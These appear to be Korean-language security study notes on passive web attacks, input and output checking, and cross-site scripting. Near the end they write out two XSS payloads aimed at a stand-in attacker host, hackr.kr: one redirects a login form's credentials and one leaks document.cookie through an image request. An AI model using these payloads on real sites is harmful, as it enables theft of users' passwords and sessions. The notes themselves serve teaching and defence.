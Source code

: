       - 유저를 노리는 수동적 공격
      - 함정을 이용해서 유저에게 공격코드를 실행시키는 방식
      - 공격자가 직접 웹 애플리케이션에 액세스해서 공격하지 않는다
      - 수동적 공격을 이용하면 인트라넷 같은 인터넷에서 직접 액세스할 수 없는 네트워크를 공격할 수 있다
      - 일반적인 순서
          - 공격자가 설치한 함정에 유저를 유도한다
          - 함정에는 공격 코드를 심어둔 HTTP Request를 발생시키기 위한 장치가 준비되어 있다
          - 사용자가 함정에 걸리면 유저의 브라우저나 메일 클라이언트에서 함정을 열게 된다
          - 함정에 걸리면 유저의 브라우저가 장착된 공격코드를 포함한 HTTP Request를 공격 대상인 웹 애플리케이션에 송신하고 공격코드를 실행한다
          - 공격코드를 실행하면 취약성이 있는 웹 애플리케이션을 경유한 결과로서 유저가 가지고 있는 쿠키 등의 기밀정보를 도둑맞거나 로그인 중인 유저의 권한이 악동되는 피해가 발생한다.
      - 종류 : 크로스 사이트 스크립팅(XSS; Cross-site-Scripting), 크로스 사이트 리퀘스트 포저리 CSRF; Cross Site Request Forgery) 등

- *<b>대표적인 공격 방법 1-1_출력 값의 이스케이프 미비로 인한 취약성 개괄</b>* ([참고](https://msdn.microsoft.com/ko-kr/library/sbfk95yb(v=vs.110).aspx))

> 웹 애플리케이션의 보안 대책을 실시하는 장소를 크게 나누면 다음과 같다
>
> 1.클라이언트에서 체크
>
>> 클라이언트 측에서의 체크는 대부분 Javascript를 사용한다
>>
>> 변조되었거나 무효화될 가능성이 있기 때문에 근본적인 보안 대책으로는 적합하지 않다
>>
>> 클라이언트 측의 체크는 입력 실수를 바로 지적해주는 UI향상을 위한 정도로 사용한다

> 2.웹 애플리케이션(서버측)에서 체크
>
>> 2-1.입력값 체크
>>
>>>
>>> 웹 애플리케이션 내에서 처리할 때에 공격코드로서 의미를 갖는 것도 있기 때문에 근본적인 보안 대책으로는 적합하지 않다.
>>>
>>> 시스템 요건대로 된 값인지 아닌지에 대한 체크나 문자 코드의 체크 등을 실시한다
>>>
>>
>> 2-2.출력값 체크
>>
>>> 웹 애플리케이션에서 처리한 데이터를 데이터베이스나 파일 시스템, HTML, 메일 등에 출력할 때 출력하는 곳에 따라 값을 이스케이프 처리하는 것이 중요하다
>>>
>>> 출력 값의 이스케이프가 미비할 경우 공격자가 보낸 공격코드가 출력하는 대상에 피해를 입힐 수 있다


- *<b>대표적인 공격 방법 1-2_출력 값의 이스케이프 미비로 인한 취약성 분류</b>*

  1. 크로스 사이트 스크립팅 (XSSl Cross-Site Scripting)
      - 취약성이 있는 웹사이트를 방문한 사용자의 브라우저에서 부정한 HTML 태그나 Javascript 등을 동작시키는 공격이다. 동적으로 HTML을 생성하는 부분에서 취약성이 발생할 수 있다. 이는 공격자가 작성한 스크립트가 함정이 되고 유저의 브라우저 상에서 움직이는 수동적 공격이다
      - 영향
          - 가짜 입력 폼 등에 의해 유저의 개인정보를 도둑맞는다
          - 스크립트에 의해 유저의 쿠키 값이 도둑맞거나 피해자가 의도하지 않는 리퀘스트가 송신된다
          - 가짜 문장이나 이미지 등이 표시된다
      - 공격사례
          - 발생 장소는 동적으로 HTML을 생성하는 곳이다. 프로필 편집 기능을 예로 들 수 있다
              - 사용자가 입력한 내용이 그대로 다시 표시될 경우, 태그와 같은 영역을 입력값에 포함한다면 그 결과 데이터는 태그나 스크립트가 실행될 수 있다.
          - http://test.kr/login?ID=yoon
              - 로그인창에 ID 파라미터에 대한 데이터를 넣어주는 형태로 구현되어있을 경우
              - XSS는 수동적 공격이기 때문에 공격자는 다음과 같은 메일이나 함정을 작성한 후 유저가 URL을 클릭하도록 유도한다.
              - ```http://test.kr/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.kr/pwget";+f.method=get;</script>```
              - URL을 열어도 보기에는 변함이 없지만 설치한 스크립트가 동작하고 있어 유저가 폼에 ID와 패스워드를 입력하면 공격자의 사이트인 hackr.kr로 입력데이터가 송신된다.
          - js파일을 호출하여 유저의 쿠키를 크로스 사이트 스크립팅으로 빼앗을 수 있다
              - ```var content = escape(document.cookie)```
              - ```document.write("<img src=http://hackr.kr/?```);
              - ```document.write(content);```
              - ```document.write(">");```